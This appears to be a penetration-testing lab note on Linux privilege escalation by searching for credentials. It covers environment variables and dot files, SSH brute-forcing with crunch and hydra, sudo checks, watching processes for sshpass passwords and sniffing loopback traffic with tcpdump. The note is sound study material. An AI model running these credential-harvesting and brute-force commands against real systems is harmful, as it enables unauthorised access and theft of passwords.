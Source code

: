 # Searching For Sensitive Information

## Low Hanging Fruit

### env

```shell-session
$ env
...
XDG_SESSION_CLASS=user
TERM=xterm-256color
SCRIPT_CREDENTIALS=lab
USER=joe
LC_TERMINAL_VERSION=3.4.16
SHLVL=1
XDG_SESSION_ID=35
LC_CTYPE=UTF-8
XDG_RUNTIME_DIR=/run/user/1000
SSH_CLIENT=192.168.118.2 59808 22
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1000/bus
MAIL=/var/mail/joe
SSH_TTY=/dev/pts/1
OLDPWD=/home/joe/.cache
_=/usr/bin/env
```

### UNIX dot files

```shell-session
$ cat .bashrc
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

# don't put duplicate lines or lines starting with space in the history.
# See bash(1) for more options
export SCRIPT_CREDENTIALS="lab"
HISTCONTROL=ignoreboth
...
```

### Brute Force Other User

Once we access a low level user we can try to brute force other users while we continue to do enumerate the machine.

Create wordlist:

```shell-session
$ crunch 6 6 -t Lab%%% > wordlist
```

```shell-session
$ hydra -l eve -P wordlist 192.168.50.214 -t 4 ssh -V
```

### sudo

```shell-session
$ su - root
Password:

# whoami
root
```

```shell-session
$ sudo -i
[sudo] password for eve:

# whoami
root
```

```shell-session
$ sudo -l
[sudo] password for joe: 
Matching Defaults entries for joe on debian-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User joe may run the following commands on debian-privesc:
    (ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/apt-get
```

## Inspecting Services / Daemons

### Monitor Running Processes

```shell-session
$ watch -n 1 "ps -aux | grep pass"
...

joe      16867  0.0  0.1   6352  2996 pts/0    S+   05:41   0:00 watch -n 1 ps -aux | grep pass
root     16880  0.0  0.0   2384   756 ?        S    05:41   0:00 sh -c sshpass -p 'Lab123' ssh  -t eve@127.0.0.1 'sleep 5;exit'
root     16881  0.0  0.0   2356  1640 ?        S    05:41   0:00 sshpass -p zzzzzz ssh -t eve@127.0.0.1 sleep 5;exit
```



### Capture Traffic

We capture trafffic on the feedback loop. This can reveal sensitive information and is good if we know there is a process running on localhost.

```shell-session
$ sudo tcpdump -i lo -A | grep "pass"
[sudo] password for joe:
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
...{...zuser:root,pass:lab -
...5...5user:root,pass:lab -
```



### Pspy

Pspy monitors running processes&#x20;

{% embed url="https://github.com/DominicBreuker/pspy" %}
